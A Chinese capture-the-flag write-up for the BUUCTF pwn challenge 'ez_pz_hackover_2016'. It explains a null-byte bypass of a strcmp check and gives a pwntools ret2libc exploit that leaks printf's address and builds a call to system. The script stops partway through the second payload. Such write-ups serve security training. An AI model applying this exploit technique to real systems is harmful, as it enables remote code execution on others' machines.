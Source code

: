 # buu032-ez_pz_hackover_2016
```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s[1024]; // [esp+Ch] [ebp-40Ch] BYREF
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(s, 1023, stdin);
  v0 = strlen(s);
  v3 = memchr(s, 10, v0);                       // 将中间的换行符换成空字节
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", s);
  result = strcmp(s, "crashme");
  if ( !result )
    return vuln((char)s, 0x400u);
  return result;
}
```
chall函数中打印了一个地址，但是没啥用，不给也能做。

本题一个考察的重点就是fgets函数，这个函数遇到换行输入会截断，但是空字节不会，因此可以在crashme后面加一个空字节，后面仍然能输入我们的payload，绕过检查。
![](https://img-blog.csdnimg.cn/eb5d2917bde445c28a8bde35db106aec.png)
需要注意的是memcpy的src起始地址并不是crashme的地址，而是crashme的二重指针，也就是说复制之后dest的值并不是crashme。这个地址在crashme的前面，因此需要添加的无效字节数量需要经过计算。

exp：
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28953)
elf = ELF('./pwn')

payload = b'crashme\x00'
payload += cyclic(2 + 4*4)
payload += p32(elf.plt['printf'])
payload += p32(elf.symbols['chall'])
payload += p32(elf.got['printf'])

io.sendlineafter(b'> ', payload)

io.recvuntil(b'crashme!\n')
printf = u32(io.recv(4))

print(hex(printf))

libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = b'crashme\x00'
payload += cyclic(2 + 4*4)
payload += p32(sys)
payload += p32(0xdeadeef)
```